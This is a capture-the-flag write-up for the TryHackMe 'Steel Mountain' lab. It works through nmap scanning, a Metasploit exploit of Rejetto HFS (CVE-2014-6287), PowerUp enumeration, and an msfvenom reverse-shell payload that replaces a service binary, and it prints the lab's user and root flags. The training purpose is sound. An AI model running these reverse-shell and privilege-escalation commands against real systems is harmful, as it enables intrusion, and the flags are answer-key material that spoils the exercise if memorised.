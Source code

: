 Room: https://tryhackme.com/room/steelmountain

Title: Steel Mountain

Target IP: 10.10.144.146

1. Who is the employee of the month?
   - Navigate to the website at your target IP address
   - Inspect the source code of the website

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/900ffa36-6186-4ce1-a577-6e327bb1acdc)

   - Doing an "Inspect" on the website lets us see the name of the image
   - Alternatively, we could have saved the image and performed a reverse lookup

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/9d8ba84c-af0a-4e20-86dc-fad56e8718b0)

   - Answer: **Bill Harper**

2. Scan the machine with nmap. What is the other port running a web server on?
   - ```nmap -sC -sV 10.10.144.146```

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/0cceda4f-317c-412f-bcff-1aa16a67cf0d)

3. Take a look at the other web server. What file server is running?
   - Navigate to ```Target IP:8080```
   - Click on HTTPFileServer 2.3
   - We find our answer!!

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/0c6fd3c2-0332-437c-aaad-df1410dd1f03)

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/b3eb4295-d9d8-4316-ad65-1fde1729bc06)

   - Answer: **Rejetto HTTP File Server**

4. What is the CVE number to exploit this file server?
   - A simple google search does the trick!

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/a7067f7b-8265-49b3-a4fb-f63eca04d811)

   - Answer: **2014-6287**

5. Use Metasploit to get an initial shell. What is the user flag?
   - Metasploit is a built in pen-testing tool that comes with Kali Linux and uses known vulnerabilities to gain shells
   - Load it up by typing ```msfconsole```
   - Seach for the exploit we found earlier ```search CVE-2014-6287```
   - Set our exploit ```use 0```
   - Change RPORT number (target port) to 8080 ```set RPORT 8080```
   - Change RHOSTS (the machine we want to attack) to our target IP
     ```set RHOSTS [Target IP]```
   - Change LHOSTS to our VPN (or local machine IP) ```set LHOSTS tun0```
   - Run the exploit using ```run``` or ```exploit```
   - We have gained our meterpreter shell!!!

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/3d1d516d-91d9-488f-bd2a-e584644b011e)

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/0ff7e237-0582-44af-bec5-8de6115a573a)

   - Navigate to the `C:\Users\bill\Desktop` directory
   - Cat out the flag!
     
![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/46a5f56b-1d87-4e02-9569-ad2b23b0e73a)

   - Answer: **��b04763b6fcf51fcd7c13abc7db4fd365**

6. Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?
   - Download the PowerUp script to enumerate the machine: https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
   - Copy and paste the raw script in your VM as ```PowerUp.ps1```
   - Upload script in Meterpreter ```upload [directory path]/PowerUp.ps1
   - Load powershell ```load powershell```
   - Enter powershell ```powershell_shell```

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/830d502e-4388-49bc-bda2-2b49ea75c650)

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/2ab346ff-23b1-4aac-b4ef-b880a8a8660b)

   - Enter commands ```. . \PowerUp.ps1```
   - Run ```Invoke-AllChecks```

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/341a028c-a12b-4538-afb3-6a9c6943ccfa)

   - Answer: **AdvancedSystemCareService9**

7. What is the root flag?
   - Modify the given msfvenom code to your machine IP ```msfvenom -p windows/shell_reverse_tcp LHOST=CONNECTION_IP LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe```
   - ```-p``` is payload
   - ```-e``` is the executable encoded
   - ```f``` refers to file type
   - ```-o``` being outputted, change Advanced.exe to ASCService.exe (not required but easier when uploading so don't have to rename)
   - ```msfvenom -p windows/shell_reverse_tcp LHOST=10.2.104.89 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe```

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/4688485f-fb91-4072-afe5-662bc1226bbe)

   - Go back to meterpreter and upload the ASCService.exe executable ```upload [directory path]/ASCService.exe```

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/549cc542-2619-427b-b124-d2fde0c1c932)

   - Set up a netcat listner on your machine
     
![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/ebd0b2ac-434d-40a3-ae17-89650ea4d3c7)

   - Go back to meterpreter shell and stop the AdvancedSystemCareService9 service so we can edit it...
   - ```shell```
   - ```sc stop AdvancedSystemCareService9```
   - ```exit```

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/c61b2fa3-6b13-4103-8ef0-ce6e2741ea75)

   - Copy the path the service is in

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/b031c092-6616-44ce-8952-a417f2d2d0d2)

   - ```cp ASCService.exe "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"```
   - Replacing the service with a msfvenom payload

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/44f967b4-392b-4887-8e3c-2d570f355790)

   - Go back to shell and start the service so the payload will execute
   - ```shell```
   - ```sc start AdvancedSystemCareService9```

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/26439377-80ed-449e-8033-d25bb4953576)

   - Go back to netcat listener, we have our shell!!!

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/b7bfa4df-5d50-4ec1-802c-d62977b23b91)

   - Find the root flag...
   - Navigate to ```C:\Users\Administrator\Desktop```
   - use ```dir``` instead of ```ls```
   - use ```type``` insetad of ```cat```

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/8e5d7710-e53a-432e-92a6-490f9bfc6317)

   - Answer: **9af5f314f57607c00fd09803a587db80**


